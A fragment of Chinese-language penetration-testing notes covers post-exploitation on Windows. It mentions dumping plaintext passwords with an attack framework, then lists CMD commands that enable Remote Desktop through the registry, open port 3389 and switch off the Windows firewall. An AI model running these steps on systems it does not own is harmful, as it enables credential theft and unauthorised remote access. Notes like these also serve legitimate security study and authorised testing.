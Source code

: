 #### 法二：CS

![image-20220814170532122](./st1.assets/image-20220814170532122.png)

然后再点击"抓取明文密码"即可。



### 启用远程桌面

#### 法一：CMD

```bash
netstat -ano | findstr "3389"						# 查看端口3389是否开启
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本
```
